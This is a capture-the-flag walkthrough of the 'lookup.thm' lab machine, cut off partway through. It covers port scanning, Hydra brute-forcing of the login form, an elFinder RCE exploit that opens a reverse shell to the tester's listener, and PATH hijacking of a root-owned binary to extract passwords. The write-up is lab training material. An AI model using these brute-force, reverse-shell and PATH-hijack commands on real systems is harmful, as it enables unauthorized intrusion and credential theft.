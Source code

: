 # Enumeration
This CTF seems to use domains so I already went ahead and added the domain `lookup.thm` to my `/etc/hosts` file
## Nmap
Time to see what ports are Open on the machine...
```bash
$ cat nmap-initial 
# Nmap 7.94SVN scan initiated Tue Apr 22 16:08:15 2025 as: nmap -oN nmap-initial lookup.thm
Nmap scan report for lookup.thm (10.10.198.178)
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

seems to be a basic setup with http and ssh running. Let's do some further scanning before we check the http server out.

```bash
$ nmap -A lookup.thm -oN nmap-Agressive
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-22 17:43 CEST
Nmap scan report for lookup.thm (10.10.208.157)
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page

..Snip..(OS Scan failed)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   37.74 ms 10.21.0.1
2   38.01 ms lookup.thm (10.10.208.157)
```

The Aggressive scan revealed that Apache is outdated and in The Traceroute we can see another server lets check this one out two

```bash
$ nmap 10.21.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-23 14:44 CEST
Nmap scan report for 10.21.0.1
Host is up (0.039s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
```

This was a shot in the dark lets have a look at the HTTP server
## Apache HTTP server
upon Opening the Website we get a login screen when we try to login we make a post request to `/login.php` 
![[Pasted image 20250423145014.png]]
### Fuzzing
Decided to do some Fuzzing but had no luck did a Directory scan which returned the login.php site and a Subdomain(Vhost) scan which revealed nothing
### Nikto
at this point I was kind of clueless so I just ran nikto on it to see what happens
```bash
$ nikto -host lookup.thm
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.208.157
+ Target Hostname:    lookup.thm
+ Target Port:        80
+ Start Time:         2025-04-22 18:18:07 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /login.php: Admin login page/section found.
+ 7962 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2025-04-22 18:23:51 (GMT2) (344 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

seems to me that this is just a generic website with a login page My only option is to bruteforce the login window so lets go ahead and do that...

# Vulnerability Assessment
I did some testing with the login page trying to see how it works doing that I found out that the admin user exists on the system and we only need to find out his password

When we try with a trash user we get `Wrong username or password` as the output
![[Pasted image 20250423145755.png]]

When using the admin user we only get `Wrong password` which indicates that the password request are being handled insecurely 
![[Pasted image 20250423145852.png]]

# Exploitation
## Hydra
```bash
$ hydra -l admin -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt http-post-form://lookup.thm"/login.php:username=^USER^&password=^PASS^:F=Wrong password. Please try again."
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-23 15:06:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking http-post-form://lookup.thm:80/login.php:username=^USER^&password=^PASS^:F=Wrong password. Please try again.
[80][http-post-form] host: lookup.thm   login: admin   password: password123
```

when we try to use the password and username we get a new error
![[Pasted image 20250423151547.png]]

that's kinda weird, maybe we need to find another username.
```bash
$ hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p password123 http-post-form://lookup.thm"/login.php:username=^USER^&password=^PASS^:F=Wrong username or password. Please try again."

..Snip..

[80][http-post-form] host: lookup.thm   login: jose   password: password123
```

Now we can finally login!
## elFinder
Upon Logging in We get greeted with a bunch of files that contain what I think is password's But I didn't care too much about that as the version seems to be outdated and there is a public exploit available at [GitHub](https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce/tree/main) 
![[Pasted image 20250424182331.png]]

After Downloading the Exploit all I had to do is run it
```bash
python3 exploit.py -t http://files.lookup.thm/elFinder/ -lh 10.21.21.101 -lp 1337
```

We get a shell as `www-data`
```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.21.21.101] from (UNKNOWN) [10.10.164.72] 55534
bash: cannot set terminal process group (708): Inappropriate ioctl for device
bash: no job control in this shell
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ 
```

*After that I took a peek at someone else's writeup because im not too good with privesc yet*

I found the File `/usr/sbin/pwm` which is owned by root when we run it we get
```bash
$ /usr/sbin/pwm                
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

the code is encoded so we wont be able to easily change it so we either have to do some reverse engineering or we just try to manipulate the ID command so that the script thinks are the think user
```bash
# The /usr/sbin/pwm command checks in each directory of $PATH to see if there is an id command present 
# If we edit the $PATH variable to have /tmp(or any other directory we have access to) at the beginning then the /usr/sbin/pwm command will first check the /tmp directory for an id file present in there and try to execute it so when we edit the file to return the think user instead of www-data the script will think that we are think 
$ cd /tmp
$ echo $PATH                
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ export PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ echo "echo 'uid=33(think) gid=33(think) groups=33(think)'" > id
$ chmod +x ./id
$ id
uid=33(think) gid=33(think) groups=33(think)
$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
jose1004
jose1002
..Snip..
```

funny enough that the output we get looks like a wordlist lets try to use it as one